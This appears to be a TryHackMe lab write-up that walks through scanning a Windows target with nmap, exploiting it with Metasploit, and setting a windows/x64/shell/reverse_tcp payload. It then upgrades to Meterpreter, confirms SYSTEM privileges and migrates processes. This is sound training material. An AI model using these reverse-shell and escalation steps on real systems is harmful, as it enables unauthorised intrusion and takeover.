 **<span style="color: #151c2b;">Task 1:</span>**

<span style="color: #151c2b;">Scan the machine.</span>

&nbsp;**<span style="color: #151c2b;">How many ports are open with a port number under 1000?</span>**

nmap -A 10.10.46.2

![0612282d916ec4f0904797ac1da9ea32.png](resources/0612282d916ec4f0904797ac1da9ea32.png)

&nbsp;

<span style="color: #151c2b;">**What is this machine vulnerable to?**</span>

&nbsp;nmap --script=vuln 10.10.46.2

![76b33048bba8c009c9e795f3e8669f2f.png](resources/76b33048bba8c009c9e795f3e8669f2f.png)

**Task 2 Gain Access:**

Exploit the machine and gain a foothold.

Start [Metasploit -](https://tryhackme.com/module/metasploit)

**Q1: Find the exploitation code we will run against the machine. What is the full path of the code?** (Ex: exploit/........)

![0c021fa5c865c08d4cdc8f3a472e5415.png]( resources/0c021fa5c865c08d4cdc8f3a472e5415.png)

**Q2: Show options and set the one required value. What is the name of this value?** (All caps for submission)

![2238a19ef523ca493b3993e018f15e8a.png]( resources/2238a19ef523ca493b3993e018f15e8a.png)

![282ea7f7b9138891771b52d3165f5a99.png]( resources/282ea7f7b9138891771b52d3165f5a99.png)

![6e5b0eb5dde0122d3a29a47343540cf2.png]( resources/6e5b0eb5dde0122d3a29a47343540cf2.png)

**Q3: Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:**

`set payload windows/x64/shell/reverse_tcp`

With that done, run the exploit!

![d73cf8102c78daefc5584fd65f3a8cc2.png]( resources/d73cf8102c78daefc5584fd65f3a8cc2.png)

&nbsp;

Q4: Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

**Task3: Escalate**

Escalate privileges, learn how to upgrade shells in <span style="color: inherit;">Metasploit</span>.

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to Meterpreter shell in Metasploit. What is the name of the post module we will use?

![9b05b20d2eae0ebc45d4f2e07d140543.png]( resources/9b05b20d2eae0ebc45d4f2e07d140543.png)

&nbsp;

![a50e30d30a97b316fa85fa798651e8e4.png]( resources/a50e30d30a97b316fa85fa798651e8e4.png)

&nbsp;

![0cd22c65fa6fb16617975159a26276ed.png]( resources/0cd22c65fa6fb16617975159a26276ed.png)

&nbsp;

Select this (use MODULE_PATH). Show options, what option are we required to change?

![9db2c06f5a67cf2cfb20e2b06dc5fd75.png]( resources/9db2c06f5a67cf2cfb20e2b06dc5fd75.png)

Set the required option, you may need to list all of the sessions to find your target here.

![eaa30e575bbe8d88b1b866b7f0014088.png]( resources/eaa30e575bbe8d88b1b866b7f0014088.png)

Run! If this doesn't work, try completing the exploit from the previous task once more.

&nbsp;

Once the meterpreter shell conversion completes, select that session for use.

Verify that we have escalated to NT AUTHORITY\\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\\SYSTEM and write down the process id (far left column).

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.

&nbsp;
